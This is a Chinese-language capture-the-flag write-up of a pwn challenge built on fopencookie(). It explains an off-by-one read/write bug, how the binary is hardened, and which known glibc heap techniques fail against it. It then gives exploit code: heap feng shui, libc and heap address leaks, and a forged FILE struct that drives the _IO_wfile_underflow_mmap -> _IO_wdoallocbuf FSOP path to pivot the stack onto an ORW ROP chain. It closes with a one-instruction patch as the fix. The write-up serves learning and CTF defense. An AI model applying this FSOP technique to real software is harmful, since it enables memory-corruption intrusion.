





## 程序说明

程序主要利用`fopencookie()`函数实现了一个自定义回调操作（`read`、`write`、`seek`和`close`）的 `FILE`结构体，可以使用标准 C 函数（`fread`、`fwrite`和`fseek`等）对`FILE`进行数据流操作。

`stream_open()`函数用于创建`FILE`：首先调用`alloc_cookie()`分配一个用于储存缓冲区指针、读/写指针等信息的内存空间`cookie`，然后调用`calloc()`分配大小为`size`的缓冲区。使用[Pointer Encryption
](https://sourceware.org/glibc/wiki/PointerEncryption)加密`cookie`指针后，传递给`fopencookie()`创建新的`FILE`对象。



`init_cookie_jar()`函数初始化`cookie`所在的内存空间，主要是使用`mmap`创建一块地址随机的内存空间，首地址设为`COOKIE_JAR_PTR`并置`COOKIE_JAR_ALLOC_MAP`为`0xFFFFFFFFFFFFFFFF`。`COOKIE_JAR_ALLOC_MAP`记录`cookie`内存空间的使用情况，`alloc_cookie()`和`dealloc_cookie`通过位操作更新`COOKIE_JAR_ALLOC_MAP`实现`cookie`的分配和释放。







`stream_[read,write,seek,close]`是 IO 回调函数：解密`cookie`指针后，进行对应的 IO 操作。`do_[open,read,write,seek,close]`则辅助用户调用对应的操作。

## 漏洞说明

`stream_write`和`stream_read`函数可以越界读/写缓冲区后一字节数据，形成  off-by-one 漏洞。

当`pos`指针加上读/写数据长度超出缓冲区大小时，由于判断边界错误，导致可以多读/写一字节数据。



本题漏洞利用环境相当苛刻：

1. 程序开启`Full RELRO`、`PIE`、`stack canary`等所有保护机制；
2. 开启`seccomp`沙盒，只允许使用`open`、`read`、`write`等少数 syscall；
3. 没有调用`exit()`以及`puts`、`printf`等常见 IO 函数；
4. 使用最新的 GLIBC 2.35；
5. 使用`calloc`而不是`malloc`分配内存。

对已知攻击手法的抵御：

1. 没有调用`exit()`，可以抵御 [House of Banana](https://www.anquanke.com/post/id/222948) 等攻击`rtld_global`的漏洞利用手法。
2. 由于程序使用`Pointer Encryption`加密`cookie`指针，使用例如 [House of Emma](https://www.anquanke.com/post/id/260614) 等需要篡改`__pointer_chk_guard`的攻击手法就会导致程序在执行 IO 回调（例如`rewind(fp)`）时崩溃。
3. 在 GLIBC 2.33+ 中，`malloc_hook/free_hook`不可用，[House of Kiwi](https://www.anquanke.com/post/id/235598) 等需要借助`hook`劫持栈空间的攻击手法失效。
4. 使用`calloc`函数，可以避免使用 tcache，防止通过劫持 tcache 指针的任意地址分配攻击。

## 解题思路

解题需要使用一条存在于全版本  GLIBC 的特殊 FSOP 路径：`_IO_wfile_underflow_mmap -> _IO_wdoallocbuf`，其中`_IO_wfile_underflow_mmap`位于`_IO_wfile_jumps_mmap`，可以通过调整`fp->vtable`指针调用。

进入`_IO_wfile_underflow_mmap`后，通过伪造`FILE`结构体，可以经过`cd = fp->_codecvt`和`_IO_wdoallocbuf (fp)`两条语句，其中前者为`mov rbp, qword ptr [rdi+0x89]`，即可以控制`rbp`寄存器。

```c
static wint_t
_IO_wfile_underflow_mmap (FILE *fp)
{
  struct _IO_codecvt *cd;
 
  [...]
 
  if (__glibc_unlikely (fp->_flags & _IO_NO_READS))
    {
      __set_errno (EBADF);
      return WEOF;
    }
  if (fp->_wide_data->_IO_read_ptr < fp->_wide_data->_IO_read_end)
    return *fp->_wide_data->_IO_read_ptr;
 
  cd = fp->_codecvt;       <------------ mov rbp, qword ptr [rdi+0x89]
 
  [...]
 
  if (fp->_wide_data->_IO_buf_base == NULL)
    {
      /* Maybe we already have a push back pointer.  */
      if (fp->_wide_data->_IO_save_base != NULL)
    {
      free (fp->_wide_data->_IO_save_base);
      fp->_flags &= ~_IO_IN_BACKUP;
    }
      _IO_wdoallocbuf (fp); <----------- Go to next hop
    }
 
  [...]
 
}    
```

在`_IO_wdoallocbuf`中，存在一条可以劫持的虚表函数调用`_IO_WDOALLOCATE (fp)`。若将控制流劫持到`leave; ret` gadget 上，结合控制`rbp`，就能将`rsp`寄存器指向任意地址，实现栈迁移。

```c
void
_IO_wdoallocbuf (FILE *fp)
{
  if (fp->_wide_data->_IO_buf_base)
    return;
  if (!(fp->_flags & _IO_UNBUFFERED))
    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF) <------ mov rax, qword [rax+0xe0]; call qword [rax+0x68]
      return;
 
  [...]
 
}
```

***

首先填满 `0x1f0` tcache：

```python
for i in range(7):
    add(i, 0, 0x1e0)
for i in range(6, -1, -1):
    free(i)
```

然后堆风水布局，利用  off-by-one 漏洞将`0x100`堆块的大小改为`0x1f0`（重叠一块`0xf0`堆块）。释放后，两个堆块合并至 top chunk：

```python
add(0, 0, 0x118)
add(1, 0, 0xf0)
add(2, 0, 0xe8)

write(0, 0x118*'\x00'+p8(0xf1))
free(1)
```

最后再次堆风水，可以形成 overlapping chunk，任意读写某个`fopencookie()`分配到堆上的`FILE`结构体对象。

```
for i in range(5):
    add(0, 0, 0x10)
add(1, 0, 0x50)

# 泄漏地址
x = read(2, 0xe8)
heap = u64(x[8:16]) - 0x1ab3
libc = u64(x[0xd8:0xe0]) - 0x215b80
success("libcbase: 0x%lx", libc)
success("heapbase: 0x%lx", heap)
```

在堆上构造好 ORW ROP 链后，构造能够进入`_IO_wfile_underflow_mmap -> _IO_wdoallocbuf`的 payload，然后改写堆上的`FILE`对象。

```python
fp = heap_os(0x1a30)
leave_ret  = libc_os(0x562ec)
vtable_ptr = libc_os(0x216020)
forge_file = flat({
  0x10 : 0xffffffffffffffff,
  0x28 : 0xffffffffffffffff,
  0x68 : leave_ret,
  0x88 : heap_os(0x1337),
  0x98 : rop_chain - 8,
  0xa0 : fp,
  0xd8 : vtable_ptr-0x10,
  0xe0 : fp,
}, filler=b'\x00')

seek(2, 0, 0)
write(2, forge_file)
```

最后触发 IO 操作，进入 FSOP 路径，实现栈迁移。

```python
free(1)
```

## 修复思路

只需将位于`0x1a18`的`add rax, 1` patch 掉即可，修复 off-by-one 写漏洞。读漏洞可以不修复。

check 脚本只进行了两项检查：1) 利用泄漏的 12bit 缓冲区地址判断 `free()` 函数是否被 patch 掉；2) 读写 0x200 随机数据，判断 IO 操作是否正常和缓冲区大小限制符合预期。